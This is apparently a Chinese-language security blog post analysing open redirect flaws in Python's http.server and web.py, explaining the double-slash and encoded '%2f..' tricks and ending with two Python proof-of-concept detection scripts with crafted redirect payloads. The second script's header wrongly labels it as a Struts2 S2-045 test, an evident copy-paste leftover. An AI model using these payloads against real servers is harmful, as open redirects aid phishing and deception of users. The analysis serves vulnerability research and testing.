



Title:python http.server和web.py的URL跳转漏洞实践
Date: 2018-01-20 10:20
Category: python安全
Tags: python安全,URL redirect
Slug: 
Authors: bit4
Summary: 


看了[Phithon的文章](https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html) 分析了2个python的web服务器中的URL跳转漏洞，自己也尝试跟着思路理一理。

### 0x0、函数的本意

这个函数的本意是：

判断当前请求的url中的path（也就是本例中的“email”）是不是一个存在的路径，如果是则通过301重定向到

email/  这是其他web服务器都具有的一个正常操作。

```
http://127.0.0.1:8000/email
会自动跳转到
http://127.0.0.1:8000/email/
```

可以通过浏览器正常访问试一试，正常的web服务器都会这样跳转。



通过断点调试看到的信息（关于调试给SimpleHTTPServer.py下断点，方法和给自己的代码下断点一样，因为它里面直接有一个测试函数，可以直接运行SimpleHTTPServer.py来启动一个web服务器）：


### 0x1、单斜杠和双斜杠对于ulrparse.urlsplit()

从phithon的文章中可以看出，要实现URL的跳转的一个关键是浏览器把双斜杠后面的内容当作域名。

我们在burp中试试，发现能通过可以构造出带双斜杠的Location返回（如下图）。


继续在代码中加断点中看看，可以看出，当请求的url是单斜杠时（如上图下半部分），email是被认为是path，当是双斜杠时却被认为是netloc。个人认为这是http.server和其他web服务器所不同的地方（比如nginx，自己试过，访问http://www.code2sec.com/img  和访问http://www.code2sec.com//img 的结果都是一样的，说明这2个请求中，img都被认为是path）。



可以看出，关键是urlparse.urlsplit()函数导致的。


再验证一下上面提到的nginx中是否可以构造出带双斜杠的Location。结果表明不行，所以，这个漏洞之所以成立的一个前提条件就是：使用了urlparse.urlsplit()来解析path导致可以构造出双斜杠的Location返回，否则这个漏洞将不成立。（所以修复方案是否可以朝着这个思路来？）


### 0x2、为什么需要%2f..


```
如果是：
http://127.0.0.1:8000//example.com//..
最后的/..将被浏览器处理，根本发送不到服务器端，发送到服务端的请求将是（可以抓包验证一下），
http://127.0.0.1:8000//example.com/

想要发送到服务器端，就必须对/进行URL编码,即
http://127.0.0.1:8000//example.com/%2f..
```

而到了服务器端，这个`//example.com/%2f..`将被translate_path()函数处理，会先进行url解码然后转换为系统路径



解码后的内容为//example.com//.. 也就是当前路径了。


### 0x3、PoC脚本

以上基本理清了poc中的一些关键点，附上自动化检测脚本，可直接用于POC-T。

http.server open redirect的poc

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

'''
参考链接：https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
paylaod: http://127.0.0.1:8000//example.com/%2f%2e%2e
测试状态：成功
'''

import requests
import urlparse
import sys

def poc(url):
    x = urlparse.urlparse(url)
    target = "{0}://{1}".format(x.scheme,x.netloc)

    payload = "{0}//example.com/%2f%2e%2e".format(target)

    response = requests.get(payload,allow_redirects=False,timeout=3,verify=False)

    if response.status_code ==301:
        try:
            location = response.headers["Location"]
            if "example.com" in location:
                return True
            else:
                return False
        except:
            return False
            pass

if __name__ == "__main__":
    print poc(sys.argv[1])
```

web.py open redirect的poc:

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

'''
漏洞名称：Struts2漏洞S2-045
实验环境：VulApps/s/struts2/s2-045
参考链接：https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
测试状态：
'''

import requests
import urlparse
import sys
import urllib

'''
payload： http://127.0.0.1:8080////static%2fcss%2f@www.example.com/..%2f
https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
说明：根据p神的文章，是只有处理静态文件的代码是继承了SimpleHTTPRequestHandler类，才会受到影响
所以，这里的提供的url，最好是静态文件的url，比如 js、css、图片的完整url。
'''


'''
#
import web

urls = (
    '/(.*)', 'hello'
)
app = web.application(urls, globals())

class hello:
    def GET(self, name):
        if not name:
            name = 'World'
        return 'Hello, ' + name + '!'

if __name__ == "__main__":
    app.run()
'''


def poc(url):
    print("you should provide a static resoure url, like js|css|image")
    x = urlparse.urlparse(url)
    path_list = x.path.split("/")
    path_list.pop()
    path_list.remove("")
    path_list.append("")# list是有序的
    path= "%2f".join(path_list)
    #path = urllib.quote(path)
    #print(path)
    target = "{0}://{1}".format(x.scheme,x.netloc)
    #http://127.0.0.1:8080////static%2fcss%2f@www.example.com/..%2f
    payload = "{0}////{1}@www.example.com/..%2f".format(target,path)
    print(payload)
    response = requests.get(payload,allow_redirects=False,timeout=3,verify=False)

    if response.status_code ==301:
        try:
            location = response.headers["Location"]
            if "example.com" in location:
                return True
            else:
                return False
        except:
            return False
            pass

if __name__ == "__main__":
    print poc(sys.argv[1])

```


参考：

https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html